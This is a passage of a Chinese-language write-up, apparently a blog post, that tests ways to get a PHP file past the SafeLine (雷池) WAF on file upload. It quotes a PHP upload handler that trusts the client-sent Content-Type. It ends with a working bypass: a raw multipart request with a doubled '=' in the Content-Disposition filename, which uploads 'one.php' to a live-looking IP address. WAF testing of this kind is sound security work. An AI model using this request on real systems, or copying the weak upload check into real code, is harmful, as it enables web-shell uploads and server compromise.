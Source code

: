审计代码中发现在判断条件中，先进行了 move\_uploaded\_file 函数再对于文件进行了检测，因此存在条件竞争绕过的可能  
但在雷池 WAF 中我们文件还没落地就已经被拦住了，因此不可行

##### content-type 绕过

该方法在目前白名单的时代中也几乎不见了，我们可以看看它的写法

```plain
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists($UPLOAD_ADDR)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            if (move_uploaded_file($_FILES['upload_file']['tmp_name'], $UPLOAD_ADDR . '/' . $_FILES['upload_file']['name'])) {
                $img_path = $UPLOAD_ADDR . $_FILES['upload_file']['name'];
                $is_upload = true;

            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = $UPLOAD_ADDR.'文件夹不存在,请手工创建！';
    }
}
```

仅仅对于上传文件的 type 进行检测，无法绕过雷池 WAF

##### 利用文件包含漏洞

根据绕过方式的名字可以得知至少需要攻击者能够找到文件包含漏洞的位置且能够被攻击者任意构造才能够进行利用，两个条件如下  
(1 ) include 等函数通过动态执行变量的方式引入需要包含的文件  
(2）用户能控制该动态变量

#### 绕过成功

##### 修改 Content-Disposition 绕过

```plain
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 233
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename=="one.php"
Content-Type: application/octet-stream

here
-----------------------------2477136673360361791890184650--
```
